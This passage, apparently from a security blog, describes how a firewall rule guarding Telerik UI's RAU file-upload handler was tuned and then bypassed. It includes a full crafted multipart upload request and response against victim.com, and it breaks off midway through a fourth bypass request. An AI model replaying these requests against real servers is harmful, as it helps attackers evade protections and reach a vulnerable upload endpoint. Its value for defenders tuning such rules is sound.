 Test\_Test  
\-----------------------------62616f37756f2f  
Content-Disposition: form-data; name="fileName"  
​  
RAU\_crypto.bypass  
\-----------------------------62616f37756f2f  
Content-Disposition: form-data; name="contentType"  
​  
text/html  
\-----------------------------62616f37756f2f  
Content-Disposition: form-data; name="lastModifiedDate"  
​  
2019-01-02T03:04:05.067Z  
\-----------------------------62616f37756f2f  
Content-Disposition: form-data; name="metadata"  
​  
{"TotalChunks":1,"ChunkIndex":0,"TotalFileSize":1,"UploadID":"test\_12421498329494.txt"}  
\-----------------------------62616f37756f2f--  
​

Response:

HTTP/1.1 200 OK  
Cache-Control: private  
Content-Type: text/html; charset=utf-8  
Date: Fri, 08 May 2020 10:25:09 GMT  
Content-Length: 667  
Connection: close  
​  
{"fileInfo":{"FileName":"RAU\_crypto.bypass","ContentType":"text/html","ContentLength":153,"DateJson":"2019-01-02T03:04:05.067Z","Index":0}, "metaData":"\[Base64 Metadata\]" }

To address this new bypass it was necessary to tune the rule _so that it transformed to lower case all the characters within the query string parameters before applying the check on the presence of the "type=rau" parameter_.

So now we're confident that any variation of the "_Telerik.Web.UI.WebResource.axd?type=rau_" within the path of the _HTTP_ request would be blocked by the the WAF rule.

_"Is it enough now?"_

**\-** **4th WAF Rule: the Multipart Magic**

The Telerik UI file upload functionality can only be performed using an HTTP POST request of the "_multipart/form-data_" content type.

The WAF rule did not allow any variations of the "_type=rau_" parameter within the URL query string of the request.

_But what if the parameter is inserted within the body of the "multipart/form-data" file upload request?_

Request:

POST /Telerik.Web.UI.WebResource.axd HTTP/1.1  
Host: victim.com  
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86\_st64; rv:75.0) Gecko/20100101 Firefox/75.0  
Accept: \*/\*  
Accept-Language: en-US,en;q=0.5  
Accept-Encoding: gzip, deflate  
Connection: close  
Content-Type: multipart/form-data; boundary=---------------------------62616f37756f2f  
Connection: close  
Content-Length: 2444  
​  
\-----------------------------62616f37756f2f  
Content-Disposition: form-data; name="rauPostData"  
​  